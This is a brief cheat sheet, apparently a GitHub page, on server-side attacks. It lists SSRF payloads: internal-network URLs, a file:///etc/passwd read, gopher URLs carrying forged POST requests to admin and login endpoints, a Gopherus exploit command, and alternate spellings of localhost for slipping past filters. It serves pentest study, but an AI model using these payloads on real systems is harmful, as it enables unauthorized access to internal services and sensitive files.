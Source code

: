 # Server Side Attacks 

Server-side attacks target the application or service provided by a server, whereas a client-side attack takes place at the client's machine, not the server itself.
For instance, vulnerabilities like Cross-Site Scripting (XSS) target the web browser, i.e., the client. On the other hand, server-side attacks target the web server.

- Server-Side Request Forgery (SSRF)
- Server-Side Template Injection (SSTI)
- Server-Side Includes (SSI) Injection
- eXtensible Stylesheet Language Transformations (XSLT) Server-Side Injection

## Server Side Request Forgery

Server-side request forgery vulnerability can be identified in applications that use features that make some type of HTTP request or other request based on user input.

````
http://127.0.0.1
http://127.0.0.1:<FUZZ_PORT>
http://<IP_Internal_Network>
````

**Local File Inclusion (LFI)**
````
file:///etc/passwd
````
**Gopher Protocol**
````
gopher://[host]:[port]/[type][selector]

gopher://<domain>:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20<domain>%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmi

gopher://backend:80/_POST%20/login%20HTTP/1.1%0D%0AHost%3A%20backend%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2041%0D%0A%0D%0Ausername%3Dwhite.rabbit%26password%3Ddontbelate%0D%0A
````
- https://github.com/fuzzlove/GopherSSRF
- https://github.com/tarunkant/Gopherus
````
$ python2.7 gopherus.py --exploit smtp
````

**Filter**

Other Representations of Localhost
````
http://localhost
http://127.0.0.1
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://0/
http://127.1
http://127.0.1
http://2130706433
http://0177.0.0.1
http://[::]
http://[0000::1]
http://[0:0:0:0:0:ffff:127.0.0.1]
http://[::ffff:127.0.0.1]
````
